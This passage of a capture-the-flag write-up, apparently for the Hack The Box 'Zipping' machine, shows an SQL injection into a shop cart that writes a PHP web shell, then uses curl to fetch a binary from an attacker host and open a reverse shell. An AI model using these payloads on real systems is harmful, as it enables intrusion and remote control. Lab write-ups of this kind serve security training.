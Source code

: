 Output -- this gonna be our payload for the sql injection.

```
%0a'%3b+select+'<?php+phpinfo()%3b+?>'+into+outfile+'/var/lib/mysql/230.php'%3b+--1
```

Above payload is basically a testing for the sql injection, since now we're sure
that its working, lets crapt an actual rce payload.

```bash
echo -n "\n'; select '<?php echo \"<pre>\".shell_exec(\$_GET[\"cmd\"]).\"</pre>\";?>' into outfile '/var/lib/mysql/231.php'; --1" | urlencode -c ';?"' | urlencode -c "'<>"
```

sample request to get the rce

```bash
curl -i -s -k -X $'POST' -H $'Cookie: PHPSESSID=3otiofh4e6jbvn6huja1mcdeid' \
-H $'Host: zipping.htb' \
-H $'Cache-Control: max-age=0' \
-H $'Origin: http://zipping.htb' \
-H $'Content-Type: application/x-www-form-urlencoded' \
-H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36' \
-H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
-H $'Connection: close' \
-H $'Accept-Encoding: gzip, deflate, br' \
--data-binary $'quantity=1&product_id=%0a%27%3b+select+%27%3c%3fphp+echo+%22%3cpre%3e%22.shell_exec($_GET[%22cmd%22]).%22%3c/pre%3e%22%3b%3f%3e%27+into+outfile+%27/var/lib/mysql/270.php%27%3b+--1' $'http://zipping.htb/shop/index.php?page=cart'

```

### User Flag

aight now lets get a proper shell, we gonna use reverse-ssh shell.

```bash
curl '10.10.11.229/shop/index.php?page=/var/lib/mysql/280&cmd=curl+http://10.10.14.39:8000/rev+-o+/dev/shm/rev'

curl '10.10.11.229/shop/index.php?page=/var/lib/mysql/280&cmd=chmod+777+/dev/shm/rev'

curl '10.10.11.229/shop/index.php?page=/var/lib/mysql/280&cmd=/dev/shm/rev+-p+9001+10.10.14.39'

# catch the reverse shell
reverse-ssh -v -l -p 9001
ssh -p 8888 127.0.0.1

#flag
ea47a5**********************9e97f6df462
```

## previlege escalation
